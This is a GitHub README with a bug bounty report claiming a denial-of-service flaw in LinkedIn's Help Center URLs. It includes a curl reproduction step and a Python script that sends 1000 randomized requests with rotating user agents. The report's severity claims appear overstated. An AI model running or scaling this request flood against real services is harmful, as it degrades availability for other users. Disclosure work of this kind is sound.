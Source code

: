 # HelpOut
Ddos resources exhaustion for LinkedIn help center

Here's the first report:
[Double Barrel 0day](https://raw.githubusercontent.com/DeadmanXXXII/Double_Barrel)

---

### Bug Bounty Report

**Title:** Potential DoS Vulnerability in LinkedIn Help Center URLs Due to Improper URL Handling

**Report Date:** August 28, 2024

**Reporter:** Blu Corbel AKA DeadmanXXXII

**Program:** LinkedIn Bug Bounty Program

---

#### Summary:

I have discovered a potential Denial of Service (DoS) vulnerability in LinkedIn's Help Center URL handling mechanism. By altering the last 7 characters of certain Help Center URLs, the server consistently returns a status code of 200 OK for URLs that do not actually exist. This behavior can be exploited to perform a DoS attack by generating and requesting numerous random URLs, overwhelming LinkedIn's servers.

#### Impact:

The vulnerability allows an attacker to flood LinkedIn's servers with legitimate-looking requests that consume resources, potentially degrading service performance or leading to a full-scale outage. Such an attack could disrupt the availability of LinkedIn's Help Center and other related services.

#### CVSS Score:

- **CVSS Version:** 3.1
- **CVSS Vector:** AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
- **Base Score:** 8.6 (High)

#### CWE ID:

- **CWE-400:** Uncontrolled Resource Consumption ('Resource Exhaustion')

---

#### Steps to Reproduce:

1. Start with the base LinkedIn Help Center URL: `https://www.linkedin.com/help/linkedin/answer/a1341680`
2. Modify the last 7 characters of the URL with any random digits or characters, for example: `https://www.linkedin.com/help/linkedin/answer/a1041689`.
3. Use `curl` or any HTTP client to make a request to the generated URL:
   ```bash
   curl -I https://www.linkedin.com/help/linkedin/answer/a1041689
   ```
4. Observe that the server consistently returns a `200 OK` status code along with valid content, even for URLs that do not exist.

#### Proof of Concept (PoC) Script: **HelpOut.py**

The following Python script, named **HelpOut.py**, demonstrates how an attacker might exploit this vulnerability by generating random URLs and sending requests with varying user agents.

```python
import requests
import random
import string
import time

# Base URL for LinkedIn Help Center
base_url = "https://www.linkedin.com/help/linkedin/answer/a"

# Random User Agents
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15",
    "Mozilla/5.0 (Linux; Android 11; SM-G998B) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 15_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Mobile/15E148 Safari/604.1"
]

def generate_random_url(base):
    # Generate a random 7-character alphanumeric string
    random_chars = ''.join(random.choices(string.ascii_lowercase + string.digits, k=7))
    return base + random_chars

def send_request(url):
    # Choose a random User Agent
    headers = {
        "User-Agent": random.choice(user_agents)
    }
    response = requests.head(url, headers=headers)
    print(f"Requested URL: {url} | Status Code: {response.status_code}")

# Generate and request random URLs
for _ in range(1000):  # Modify this number to increase/decrease the number of requests
    random_url = generate_random_url(base_url)
    send_request(random_url)
    time.sleep(0.1)  # Pause between requests to simulate more realistic traffic
```

---

#### Mitigation Recommendations:

1. **Implement Rate Limiting:** Enforce rate limits on incoming requests to prevent abuse by automated scripts and bots.
2. **Return Proper Error Codes:** Ensure that only valid resources return a `200 OK` status code. Non-existent or unauthorized resources should return appropriate error codes like `404 Not Found`.
3. **Request Throttling:** Apply throttling mechanisms on repetitive and identical requests to prevent resource exhaustion.
4. **Response Caching:** Implement caching mechanisms to avoid reprocessing identical requests, thus reducing the load on servers.

#### Business Impact:

If exploited, this vulnerability can cause severe service disruptions, affecting user access to LinkedIn Help Center resources and potentially leading to widespread dissatisfaction among users. Furthermore, the attack can compromise LinkedIn's reputation for reliability and security.

---

#### Additional Information:

- **LinkedIn Help Center URLs:** This issue appears to be specific to certain LinkedIn Help Center URLs. However, further investigation might reveal similar vulnerabilities in other areas of the platform.
- **Server Behavior:** The consistent `200 OK` response, regardless of the validity of the resource, suggests that the backend server may not be verifying the existence of the requested resource, leading to unnecessary processing.

---

Please review the findings and consider implementing the recommended mitigations to protect LinkedIn's infrastructure from potential abuse. I am happy to provide further clarification or assist with any testing as needed.

**Blu Corbel AKA DeadmanXXXII**

---


![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-215828.png)

![status 200s](https://raw.githubusercontent.com/DeadmanXXXII/HelpOut/main/Screenshot_20240828-220144.png)

